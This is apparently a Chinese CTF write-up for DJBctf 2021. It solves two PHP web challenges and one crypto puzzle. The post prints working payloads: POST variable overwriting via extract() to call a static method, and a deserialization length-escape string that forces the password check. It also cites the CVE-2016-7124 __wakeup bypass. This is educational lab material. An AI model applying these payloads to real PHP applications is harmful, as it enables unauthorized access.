










2021第一场比赛

DJBctf

<!-- more -->

昵称：别答了别答了再答人傻了

做了两道web，签到题有非预期(汗)，分析下预期和非预期解法，加上些个人的理解

Web 何德何能，做了一道密码学...无限接近答案，赛后终于出了。

---

## WEB

### veryphp

源码

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
include("config.php");
class qwq
{
    function __wakeup(){
        die("Access Denied!");
    }
    static function oao(){
        show_source("config.php");
    }
}
$str = file_get_contents("php://input");
if(preg_match('/\`|\_|\.|%|\*|\~|\^|\'|\"|\;|\(|\)|\]|g|e|l|i|\//is',$str)){
    die("I am sorry but you have to leave.");
}else{
    extract($_POST);
}
if(isset($shaw_root)){
    if(preg_match('/^\-[a-e][^a-zA-Z0-8]<b>(.*)>{4}\D*?(abc.*?)p(hp)*\@R(s|r).$/', $shaw_root)&& strlen($shaw_root)===29){
        echo $hint;
    }else{
        echo "Almost there."."<br>";
    }
}else{
    echo "<br>"."Input correct parameters"."<br>";
    die();
}
if($ans===$SecretNumber){
    echo "<br>"."Congratulations!"."<br>";
    call_user_func($my_ans);
}

```

有一个类，可能是反序列化，但看到最后`call_user_func`，类里面还有个static函数，应该是直接调用了。

看逻辑，`php://input`，变量`str`从POST原始流读取数据，过滤后变量覆盖。然后传入`shaw_root`，满足条件会给hint，最后` $ans===$SecretNumber `即可调用函数了。

---

首先传`shaw_root`，第一个点在过滤了`_`，根据PHP特性，`空格`，`.`传递最后都会转变为`-`

如图所示，此为web3的调试，与本题此考点一致





传入空格，`.`都变成了`_`

接下来就是绕正则了，去regex101调了半天(没学正则的懒狗----->我)，调了一个payload



`-a9<b>a\n\n>>>>>>abcccphp@Rra`

传入得



```
Here is a hint : md5("shaw".($SecretNumber)."root")==166b47a5cb1ca2431a0edfcef200684f && strlen($SecretNumber)===5
```

写脚本爆破,脚本如下

```python
# -*- coding: utf-8 -*-
"""
@Time ： 2021/1/23 16:58
@Auth ： gyy
@Blog ：http://err0r.top

"""
import hashlib

def MD5(target):
    i = 10000
    while True:
        text = "shaw{}root".format(i).encode('utf8')
        m = hashlib.md5(text).hexdigest()
        print(text,m)
        m = str(m)
        if m == target :
            print('\nfind it:',text,":",m)
            break
        i +=1

if __name__ == '__main__':
    MD5('166b47a5cb1ca2431a0edfcef200684f')
```

爆破得`shaw21475root`



传入成功



表明成功了，最后一步调用函数，根据PHP文档，类static函数可以直接用`class::static function`调用，详情见[官方文档](https://www.php.net/manual/zh/function.call-user-func.php )

最终payload:`shaw root=-a9<b>a\n\n>>>>>>abcccphp@Rra&&ans=21475&&my ans=qwq::oao`



这里要注意，如果用HackBar发包的话要换模式



因为转义是阻挡你前进步伐的一大元凶


#### 题目思考

因为变量覆盖，直接把` SecretNumber `覆盖就行了，本题在`str`处有个过滤`e`，所以不行

`php://input`读入原始流数据，所以取反异或转义之类的方法都是不行的


---

### spaceman

Web签到题(大概)，源码

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
class spaceman
{
    public $username;
    public $password;
    public function __construct($username,$password)
    {
        $this->username = $username;
        $this->password = $password;
    }
    public function __wakeup()
    {
        if($this->password==='ctfshowvip')
        {
            include("flag.php");
            echo $flag;    
        }
        else
        {
            echo 'wrong password';
        }
    }
}
function filter($string){
    return str_replace('ctfshowup','ctfshow',$string);
}
$str = file_get_contents("php://input");
if(preg_match('/\_|\.|\]|\[/is',$str)){            
    die("I am sorry but you have to leave.");
}else{
    extract($_POST);
}
$ser = filter(serialize(new spaceman($user_name,$pass_word)));
$test = unserialize($ser);
?>
```

标准反序列化长度逃逸，可惜非预期了

#### 预期解

看`spaceman`类，两个变量由魔术方法`__construct`赋值，`filter`函数替换字符串，基本上就确定本题是反序列化长度逃逸了。

同样，`php://input`读取原始流数据变量覆盖，绕过方法同web1，构造反序列化

`str_replace`将`ctfshowup`替换为`ctfshow`，也就是说原来9个字符变成了7个字符，有两个字符逃逸了。

我们的核心目标是将`password`覆盖为`ctfshowvip`，所以最后部分的序列化字符串应为`;s:8:"password";s:10:"ctfshowvip";}`，一共35个字符。

所以它原始生成的部分应该被覆盖的为`";s:8:"password";s:35:`即22个字符，所以`username`应该填入11个`ctfshowup`来覆盖它

```php
<?php
class spaceman
{
    public $username;
    public $password;
    public function __construct($username,$password)
    {
        $this->username = $username;
        $this->password = $password;
    }
}
function filter($string){
    return str_replace('ctfshowup','ctfshow',$string);
}
$user_name="ctfshowupctfshowupctfshowupctfshowupctfshowupctfshowupctfshowupctfshowupctfshowupctfshowupctfshowup";
$pass_word=";s:8:\"password\";s:10:\"ctfshowvip\";}";

$ser = filter(serialize(new spaceman($user_name,$pass_word)));
//$test = unserialize($ser);

echo $ser;
?>
```

最终payload

`user name=ctfshowupctfshowupctfshowupctfshowupctfshowupctfshowupctfshowupctfshowupctfshowupctfshowupctfshowup&&pass word=;s:8:"password";s:10:"ctfshowvip";}`

记得空格绕`_`




#### 非预期解

由于变量覆盖，直接覆盖`pass_word`即可

payload：`pass word=ctfshowvip`



#### 题目思考

**当成员属性数目大于实际数目时可绕过wakeup方法(CVE-2016-7124)** 

漏洞影响版本：

PHP5 < 5.6.25

PHP7 < 7.0.10

经典的反序列化长度逃逸的题目了

---

## CRYPTO

### 大佬们帮我看看我这个Python脚本为什么运行不了啊

题目描述

```
菜鸡 9:36:27
菜鸡上传了文件 新建文本文档.py

菜鸡 9:37:02
key1: Do you want a DaJiBei?

菜鸡 9:37:61
大佬们帮我看看我这个Python脚本为什么运行不了啊
```

hint1:

```
最终结果是自带flag格式的，可以据此判断结果是否正确，不必浪费时间尝试提交格式
```

hint2:

```
为什么运行结果里好好的3，也要写成大小写混乱的样子？
```

hint3:

```
如果某个方向已经找不到更多的线索，不妨回头看看来时的道路
```

hint4:

```
本题的加密方式来源于对以下问题的思考：如何在同一个载体上加密两段信息，且读取其中一种信息的过程会令另一种信息被破坏；并且，如果前一种信息的读取方式足够显而易见，是否可以在有限的短时间内尽可能转移注意力，减少非预期接收者发现另一段信息的可能性？ 为了降低难度，本题在选择每一种信息的加密方式时，尽可能选择了复杂度较低的做法；同时，将其中一段信息（相信大家都已经找到这一段了）设计为另一段信息加密方式的提示。
```

hint5:


最终提示hint5直接点明摩斯密码

题目原件

```python
fROM CRYPTO.utIL.NuMBER IMPORT BYteS_TO_LoNG, long_TO_BYTES

A_Fake_FLaG = B'FLag{I_AM_the_TRUE_Flag_trUST_me}'
nuMBER = bYTEs_tO_long(a_FAKE_FLAG)

KeY1 = B'DO yOU WAnT A DAJIBEI?'
KEY1 = Bytes_to_lONG(KEY1)

KEY2 = 0XBCD2deE7E7114B5C856F8DAECeD0782BD891200B4D8264D854A13D53cF1F0c481b
iv = 10800
KEY3 = KeY2 * IV

IS_THIS_rEAL_FlAG = (NUmber + kEY3) // KEy1
print(long_tO_bytes(IS_THis_REAl_flag))
```

《关于我的老师看到直接气死过去怎么办》

根据题目描述，把`key1`替换为`Do you want a DaJiBei?`

调整好格式跑一遍，得到`thrEE_means_3`，尝试各种单表加密均无果，根据hint4，对原始文件进行尝试还是无果，最后比赛快结束了，放出直接提示hint5，尝试将全篇小写转换为`.`，大写转换为`-`解密，发现摩斯密码表并不是固定位数，怕是要爆破排列组合，放弃了。

赛后出题人 @cheyenne 指点，本题摩斯密码统一采用五位一组，由总数为245位可得。

由于本人python正在自学水平一般，套用之前写过的一套C的替换程序

```c
/*
@Time ： 2021/1/24 13:58
@Auth ： gyy
@Blog ：http://err0r.top
*/
#include<stdio.h>
#include<stdlib.h>
int n=0; 
void write(char str[],FILE *fpw)
{
	int c,j=0;
    while((c=str[j++])!='\n')
    {
    	if(c>='A'&&c<='Z')
		{
			n++;
			fputc('-',fpw);
		}
       	else if(c>='a'&&c<='z')
       	{
       		n++;
       		fputc('.',fpw);
		}
       	else
       		continue;
       	printf("%d\n",n);
       	if(n%5==0)
       		fputc(' ',fpw);
	}
}
int main()
{
	FILE *fpr,*fpw;
	char str[500];
	if((fpr=fopen("py","r"))==NULL)
    {    
        printf("Can't open!'");
        exit(-1);
    }
    if((fpw=fopen("output.txt","w"))==NULL)
    {    
        printf("Can't write!'");
        exit(-1);
    }
	while(fgets(str,sizeof(str),fpr))
    {
   	 	write(str,fpw);//调用函数
	}
	fclose(fpr);
	fclose(fpw);
	return 0;
}
```

浓浓的菜鸡味~，跑出结果

```
.---- ----- ..--- .---- ----- ---.. ----. --... .---- ----- ...-- .---- ..--- ...-- ---.. ...-- -.... ----. ---.. -.... .---- ----- .---- .---- .---- ----- ----. ..... .---- ----- ----. .---- ----- .---- ----. --... .---- .---- ----- .---- .---- ..... ----. ..... ..... -.... .---- ..--- .....
```

拿去解密得

```
1021089710312383698610111095109101971101159556125
```

看到ascii码` 102 108 97 103`立马起了反应，这是`flag`的ascii码，所以是每两个或三个组合成一个字符

```
102 108 97 103 123 83 69 86 101 110 95 109 101 97 110 115 95 56 125
```

最后得到flag：`flag{SEVen_means_8}`

无限接近答案，但密码学爷爷太强了呜呜呜

---

有些收获吧，如有问题希望大佬们斧正。2021一起学习。